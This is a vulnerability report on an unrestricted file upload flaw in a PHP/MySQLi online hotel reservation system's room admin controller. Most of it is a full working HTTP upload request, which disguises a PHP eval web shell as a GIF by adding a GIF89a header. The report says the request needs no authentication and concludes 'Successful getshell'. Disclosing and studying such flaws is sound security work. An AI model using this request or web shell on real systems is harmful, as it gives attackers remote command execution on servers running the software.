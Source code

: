 ### Source code

[Online Hotel Reservation System in PHP/MySQLi with Source Code | SourceCodester](https://www.sourcecodester.com/php/13492/online-hotel-reservation-system-phpmysqli.html)



### Description

A high risk vulnerability was found in Online Hotel Reservation System, affecting the upload function of /marimar/admin/mod_room/controller.php file. The bypass detection operation of image parameter resulted in unlimited file upload. Attacks can be launched remotely



### Analysis vulnerability

`marimar\admin\mod_room\controller.php`

![image-20241025214231335](assets/image-20241025214231335.png)

After the file is uploaded, the `$image_name` variable changes the file name to the current year, month, and day, then adds `_` and the uploaded file name

The vulnerability lies in the `$image_size` variable, which detects whether it is an image file, and otherwise disables uploading. So all we have to do is add the header of the image in front of the injected malicious file to bypass detection



### Recurrent vulnerability

```
POST http://localhost/marimar/admin/mod_room/controller.php?action=add HTTP/1.1
Host: 
Content-Length: 895
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: 
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryAQkzg4xV416LmyFO
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.151.167.168/marimar/admin/mod_room/index.php?view=add
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=
Connection: keep-alive

------WebKitFormBoundaryAQkzg4xV416LmyFO
Content-Disposition: form-data; name="ROOM"

test
------WebKitFormBoundaryAQkzg4xV416LmyFO
Content-Disposition: form-data; name="ACCOMID"

12
------WebKitFormBoundaryAQkzg4xV416LmyFO
Content-Disposition: form-data; name="ROOMDESC"

123123
------WebKitFormBoundaryAQkzg4xV416LmyFO
Content-Disposition: form-data; name="NUMPERSON"

4
------WebKitFormBoundaryAQkzg4xV416LmyFO
Content-Disposition: form-data; name="PRICE"

112
------WebKitFormBoundaryAQkzg4xV416LmyFO
Content-Disposition: form-data; name="ROOMNUM"

1
------WebKitFormBoundaryAQkzg4xV416LmyFO
Content-Disposition: form-data; name="image"; filename="shell.php"
Content-Type: image/png

GIF89a

<?php eval($_POST['k1nako']);?>
------WebKitFormBoundaryAQkzg4xV416LmyFO
Content-Disposition: form-data; name="save"


------WebKitFormBoundaryAQkzg4xV416LmyFO--

```

The malicious code was preceded by GIF89a disguised as a gif, Construct the upload packet, and you can see that the cookie is deleted, indicating that the system does not have authentication and can remotely launch attacks

![image-20241025215613249](assets/image-20241025215613249.png)

Although it was a warning, the file was uploaded successfully, and the file name was inferred based on the current time of 2024/10/25 21:55

![image-20241025220014780](assets/image-20241025220014780.png)

![image-20241025220151381](assets/image-20241025220151381.png)

Successful getshell